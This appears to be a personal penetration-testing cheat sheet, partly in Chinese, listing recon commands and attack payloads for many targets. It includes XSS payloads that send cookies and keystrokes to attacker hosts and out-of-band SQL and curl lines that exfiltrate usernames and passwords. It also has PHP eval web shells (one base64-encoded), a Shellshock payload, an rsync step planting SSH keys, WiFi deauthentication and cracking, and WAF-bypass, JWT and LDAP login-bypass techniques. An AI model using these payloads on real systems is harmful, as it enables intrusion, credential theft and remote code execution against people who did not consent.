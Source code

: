 # 思路
Recon
subfinder/amass 子域探测
https://search.censys.io/
https://www.shodan.io/
Shodan Dork：
Ssl.cert.subject.cn:"sub.target.com" 200
httpx with the following flags: -sc -td -cl


google / duckduckgo.com
site:blog.intigriti.com csrf
site:pentester.land csrf
site:book.hacktricks.xyz csrf
site:cloud.hacktricks.xyz csrf
site:hackerone.com/reports csrf
site:infosecwriteups.com csrf
site:weekly.infosecwriteups.com csrf
site:portswigger.net Cheatsheet

# nmap
nmap -sn ip/idor
nmap -sS/-sT --min-rate 10000 -p- ip -oA path
nmap -sU --top-ports 20 ip -oA path
nmap -sU --min-rate 10000 -p- ip -oA path
grep open path | awk -F '/' '{print $1}' | paste -sd ','
nmap  -sT -sV -sC -O -p+ports ip -oA path
nmap -sS/-sT --script=vuln -p+ports ip -oA path
nmap -sU --top-ports 20 ip -oA path

# service
smb--445---smbmap/smbclient/crackmapexec/enum4linux
nfs--------showmount -e  ip  / mount -t nfs ip:/path  filedir 
ftp---21-----anonymous
rsync---873----    rsync -a "rsyn://99.99.99.99/"  check any directories or files
    rsync 99.99.99.99::gentoo/etc/passwd .
    rsync <destination> <source>
    mkdir .ssh && touch .ssh/authorized_keys
    rsync -r ./.ssh/ 192.168.129.126::fox/.ssh
    rsync -r 192.168.129.126::fox
    


# NO nmap 
linux/bash script
for i in {1..254};do ping -c 1 -w 1 192.168.1.$i | grep from;done

# bypass
example.com  403   dig example.com cname xxxxx.xxxx.com  cname域名/file  bypass 限制


#
![安全编码的输入清理技术](https://github.com/isecren/Security/assets/7948479/6b619965-6874-4d95-a5a0-c0a42f2dc605)

# HTTP 主机标头注入攻击
1提供任意主机标头
2注入重复的 Host 标头
3添加换行
4注入主机覆盖标头
5提供绝对 URL

# wifi crack   aircrack-ng工具包
airmon-ng    airmon-ng <start|stop|check> <interface> [channel or frequency]
airodump-ng  interface
airodump-ng --bssid 28:EF:01:35:34:85 -c 6 --write wpa-01 wlan0
aireplay-ng -0 100 -a 28:EF:01:35:34:85 -c 28:EF:01:23:46:68 wlan0
hashcat 破解wifi密码
.cap文件转hashcat格式.hc22000  https://hashcat.net/cap2hashcat/
hashcat –m 22000 wpa-01.hc22000 rockyou.txt
haschcat –m 2200 –a 3 wpa-01.hc22000 ?l ?l ?l ?l ?l ?l ?l ?l ?l ?l


# Tools
nikto
burpsuite
git-dumper  git-dumper http://example.com/.git/ 输出
Weevely - 武器化的 Web shell  weevely generate <password> <path>/weevely <URL> <password> [cmd]

‘”`><img src=x>${7*7}
User-Agent: () {:;}; /usr/bin/nslookup $(.whoami).myserver.com (It’s used to exploit shellshock vulnerability)

Gau

amass enum -active -d $1 -brute -w ~/SecLists/Discovery/DNS/subdomains-top1million-110000.txt -o amass.txt
cat amass.txt | aquatone -ports xlarge -out aqua_$1
nuclei -l aqua_$1/aquatone_urls.txt -t ~/nuclei-templates -es info -o nuclei_$1.txt

httpx 进行HTTP测试
httpx -l allDomains.txt -o liveDomains.txt 
httpx -l liveDomains.txt -srd subsScreens -ss  屏幕截图

模糊测试
当我开始对目录进行模糊测试时，不管状态代码是 200,404 还是 403。大多数时候 Gems 都在这些页面内。
ffuf 工具
模糊测试列表：
/jenkins/script

paramspider/arjun 参数测试
eyewitness 检测url，自动屏幕截图
waybackurls -dates http://xxxx/xxx.php   存档数据
SQL 工具
sqlmap/ghauri

# SQL  PayloadsAllTheThings
'
"
`
')
'))
")
"))
`)
`))
oracle -- mssql -- /*comment*/ mysql -- /*comment*/ #    postgresql -- /*comment*/ 
各种字符串连接方法 判断数据库类型
oracle 'hel'||'met'  mssql 'hel'+'met'  mysql 'hel' 'met'  concat('hel','met')  postgresql 'hel'||'met'
oracle  substr('string',4,2)  mssql/mysql/postgresql  substring('string',4,2)

' or 1=1 -- -
' and 1=1 -- -
' and ''='
+AND+1=1'+ — +- 
+AND+1=1'+%23[#]
xxx' union select 1,2,3; -- -
'XOR(if(now()=sysdate()%2Csleep(15)%2C0))XOR'Z
XOR(if(now()=sysdate(),sleep(9),0))XOR\"Z
XXX'|(IF((now())LIKE(sysdate()),SLEEP(6),0))|'XXX
' || (select '') || '

database
Oracle ==> SELECT banner FROM v$version
Microsoft SQL Server ==> SELECT @@version
PostgreSQL ==> SELECT version()
MySQL ==> SELECT @@version
' UNION SELECT null,SUBSTRING(@@version,1,200) LIMIT 0,1 — MySQL version

' UNION SELECT null,SUBSTRING(@@version,1,200) WHERE row = 1 — MS SQL version

' union select null,substr(banner,1,200) from v$version%20 where rownum=1 — Oracle version

' UNION SELECT null,SUBSTRING(version(),1,200) LIMIT 1 — PostgreSQL version

MySQL & MSSQL:       ?lugu=316+AND+(SELECT+SUBSTRING(@@version,1,1))='4'
                    ?lugu=316+AND+(SELECT+SUBSTRING(@@version,1,2))='5$$'
Oracle:              ?lugu=316+AND+(SELECT+SUBSTR(version(),1,1)+FROM+DUAL)='4'
                    ?lugu=316+AND+(SELECT+SUBSTRING(@@version,1,2))='5$$'
PostgreSQL:          ?lugu=316+AND+(SELECT SUBSTRING(version(), 1, 1) = '4'
                    ?lugu=316+AND+(SELECT+SUBSTRING(@@version,1,2))='5$$'
INFORMATION_SCHEMA.SCHEMATA ：是存储数据库元数据的系统目录表。
SCHEMA_NAME ：是该表中存储数据库名称的列。
LIKE 'a%' :是过滤数据库名称的条件，仅返回以字母“a”开头的数据库名称。
AND + ( SELECT + 1 + FROM + INFORMATION_SCHEMA.SCHEMATA + WHERE + SCHEMA_NAME + LIKE + '$a$%' ) %3d1  intruder
SELECT table_name FROM information_schema.tables WHERE table_schema =  'your_database_name' ;
+ AND + ( SELECT + 1 + FROM + INFORMATION_SCHEMA.TABLES + WHERE + TABLE_SCHEMA + %3d + 'your_database_name' + AND + TABLE_NAME + LIKE + 'w%' ;) %3d1


# ssti
{{7*7}}
{{url_for.__globals__.os.popen('ls').read()}}
绕过单引号过滤器
有效负载： {{url_for.__globals__.os.popen(request.headers.hack).read()}}


#权限提升
history
search info:grep -R -i pass /home/* 2>/dev/null
bash version < 4.3
shellshock  check cmd:
env x='() { :; };echo "it is vulnerable"' bash -c date




# out of band 带外数据
select load_file(CONCAT('\\\\',(SELECT+@@VERSION),'.',(SELECT+user),'.',(SELECT+password),'.','v950miufeuuf5qgjf4bzv77v0m6du9iy.oastify.com\\vfw'))
curl `whoami`.yeg3rlzijxziatlmk7g20acy5pbgzbn0.oastify.com
curl $(whoami).yeg3rlzijxziatlmk7g20acy5pbgzbn0.oastify.com



# XSS bypass waf
Basic XSS
<script>alert('XSS');</script>
Encoding and Obfuscation
%3Cscript%3Ealert(%27XSS%27)%3B%3C%2Fscript%3E
Bypassing Advanced Filters with Polyglots
jaVasCript:/*-/*`/*\\\\`/*'/*"/**/(/* */oNcliCk=alert())//%0D%0A%0d%0a//</stYle/</titLe/</teXtarEa/</scRipt/--!> <sVg/<sVg/oNloAd=alert()//>\\\\x3e


<script>fetch('https://hacker.thm/steal?cookie=' + btoa(document.cookie));</script>
<script>document.onkeypress = function(e) { fetch('https://hacker.thm/log?key=' + btoa(e.key) );}</script>
</textarea><script>fetch('http://{URL_OR_IP}?cookie=' + btoa(document.cookie) );</script>
<iframe %00 src=\"javascript:prompt(1)\"%00>
<iframe %00 src= javascript:fetch(\"//XXXXXXXXXXXXXXXXXXXXXXXXXXXXX.burpcollaborator.net/?param=\"+document.cookie)  %00>
"><svg onlod=confirm()>
"><sVg/OnLuFy="X=y"oNloaD=;1^confirm(1)>/``¹//
"><sVg/OnLuFy="X=y"oNloaD=;1^confirm(1)> url encode + url encode
"><img src=x onerror=alert(document.cookie)>
<href="url" onmouseover=alert(1)>
<iframe %00 src=\"javascript:prompt(1)\"%00>
</script><script>alert(document.domain)</script> url encode
javascript:var{a:onerror}={a:alert};throw%20document.cookie url encode

尝试：
try URL encode
try double URL encode.
try triple URL encode.
try base64 encode.
文件上传 XSS---修改文件名参数以包含 XSS 负载
a) <img src=x onerror=alert('XSS')>.png
b) "><img src=x onerror=alert('XSS')>.png
c) "><svg onmouseover=alert(1)>.svg
d)<<script>alert('xss')<!--a-->a.png



# 原型污染是一种javascript漏洞，攻击者可以将任意属性添加到全局变量原型，然后这些属性可能被用户定义的对象继承。

# jwt 
bypass 绕过验证
CVE-2023-30845 通过使用 X-HTTP-Method-Override 请求标头绕过 JWT 检查！
curl http://example.com/api -X POST -H 'X-HTTP-Method-Override: PUT' -H 'Content-Type: application/json' --data '{"username":"xxx"}'
未经验证的签名--忘记验证签名了
越权漏洞等

签名有验证缺陷--NONE算法 alg->none
jwt_tools.py jwt-token -X a

破解弱共享密码
注意：必须是HMAC-SHA算法
jwt_tools.py jwt_token -C -d jwt_secrets.txt
echo jwt_token > jwt_file
hashcat -a 0 -m 16500 jwt_file  jwt_secrets --force

算法混淆攻击 RSA->HS256
构造jwt
jwt editor keys插件
1、获取公钥 public key
/jwks.json  /.well-known/jwks.json等
2、JWT Editor Keys 点击 NEW RSA KEY，复制jwks.json种key的值到jwk框，点击ok
copy public key as PEM 对其base64编码
3、点击new symmetric key 点generate 并替换K的值为pem编码后的值
4、回到请求体jwt，进行sign签名

标头参数住入
Jwk 注入
jwt editor keys插件
New rsa KEY generate
回到请求体jwt，attack embedded jwk
Jku 
jwt editor keys插件
1、生成一个RSA密钥 copy public key as jwk
2、创建一个webserver URL http://xxxx.xxx/jwk
3、回到请求体jwt，修改kid，添加jku,替换sub
kid 注入
jwt editor keys插件
1、生成new symmetric key generate
2、对称密钥 k值覆盖为null (base64编码)
3、回到请求体jwt，修改kid的值为../../../../../../dev/null
4、修改sub,点击 sign 签名


# LDAP
payload:")(cn=))(|(objectClass=*"
"(&(cn=))(|(uid=))(|(objectClass=*))(userpassword=[password])"
login bypass
user=*
password=*
--->(&(user=*)(password=*))
user=*)(&
password=*)(&
-->(&(user=*)(&)(password=*)(&))
user=*)(|(password=*
password=test)
--> (&(user=*)(|(password=*)(password=test))
user=*))%00
pass=any
--> (&(user=*))%00 --> Nothing more is executed
username = admin)(!(&(|
pass = any))
--> (&(uid= admin)(!(& (|) (webpassword=any)))) —> As (|) is FALSE then the user is admin and the password check is True.
username=admin))(|(|
password=any
--> (&(uid=admin)) (| (|) (webpassword=any))

# webshell
.htaccess文件
AddType指定
AddType application/x-httpd-php .png
将.png当作php文件解析
木马
上传文件，php扩展文件.phtml .phar .ptar
<?php phpinfo(); ?>
<?php 
@eval($_POST['cmd']);
?>
<?php
@eval($_REQUEST['cmd']);
?>
<?php system("whoami"); ?>
<?php
file_put_contents("shell.php","<?php @eval($_POST['cmd']); ?>");
file_put_contents("shell.php",base64_decode("PD9waHAgCkBldmFsKCRfUE9TVFsnY21kJ10pOyAKPz4="));
?>

#  Kubernetes 
使用kubectl get services --all-namespaces列出集群中的所有服务，然后查找类型为“LoadBalancer”或“NodePort”的服务。
如果您的集群中设置了 Ingress 控制器，您也可以使用此命令kubectl get ingress --all-namespaces
获取Kubernetes 集群中公开的服务
这种错误配置允许通过向节点的 IP 和端口组合发送请求来与反向代理直接通信，完全绕过负载均衡器
curl -i -s -k -X $’GET’ \
-H $’Host: service-1.kube.com’ \
$’https://<NODE-IP:8888>/'
发现敏感服务
1、crt.sh   "k8s.%.com"
2、github
3、端口扫描 Kubernetes 集群中可能会开放以下端口（取自Kubernetes 研讨会演示）：
4、探索网络插件  cAdvisor 
查找集群配置错误
当 Kubernetes API 暴露于远程交互时，此部分非常有用。
1. 检查API服务器的匿名访问
2. 检查ETCD匿名访问
如果ETCD可以匿名访问，您可能需要使用etcdctl工具。以下命令将获取存储的所有密钥：
etcdctl –endpoints=http://<MASTER-IP>:2379 get / –prefix –keys-only
3、检查Kubelet（只读端口）信息暴露情况

# bypass waf
alert = window[“al”+“ert”]。通过将“alert”关键字分成两部分并使用串联，我们可以避开 WAF 可能使用的简单关键字过滤器
用这个 `` 绕过括号 ()
用正斜杠 (/) 替换空格。此更改有助于避免 WAF 过滤器检测到可能寻找特定字符组合的情况
对符号进行编码是绕过 WAF 保护的重要组成部分。以下是该技术中使用的符号编码：
< 编码为 %3c
> 编码为 %3e
“ 编码为 %22
[ 编码为 %5b
] 编码为 %5d
` 编码为 %60
未编码有效负载：<svg/onload=window[“al”+”ert”]`1337`>

# IDOR 不安全直接对象引用
需要两个账号进行测试

# 敏感信息泄露
1、发现敏感信息-key
2、进行 Google 搜索 使用键名后跟术语“api docs curl”进行 Google 搜索，发现API接口

# SSTI 
payload: {{7*7}} 得到结果49 证明存在
读取etc/passwd  {{system('cat /etc/passwd')}}

路径遍历的根本原因是缺乏路径规范化
os.path.normpath(path).startswith("/app/resources")
注入漏洞的根本原因在于将数据视为代码
将数据与代码分离并对输入执行上下文转义。这种技术的一个主要例子是参数化查询。它隔离数据库查询的输入并执行转义




# 源码审计
SonarQube 这样的工具
XSS:
grep -Ri "\$_" . | grep "echo"
grep -Ri "\$_GET" . | grep "echo"
grep -Ri "\$_POST" . | grep "echo"
grep -Ri "\$_REQUEST" . | grep "echo"

Command execution:
grep -Ri "shell_exec(" .
grep -Ri "system(" .
grep -Ri "exec(" .

Code execution:
grep -Ri "eval(" .
grep -Ri "assert(" .
grep -Ri "preg_replace" . | grep "/e"

SQL Injection:
grep -Ri "\$sql" .
grep -Ri "\$sql" . | grep "\$_"

RFI/LFI:
grep -Ri "file_include" .
grep -Ri "include(" .
grep -Ri "require(" .
grep -Ri "include_once(" .
grep -Ri "require_once(" .
grep -Ri "require_once(" . | grep "\$_"
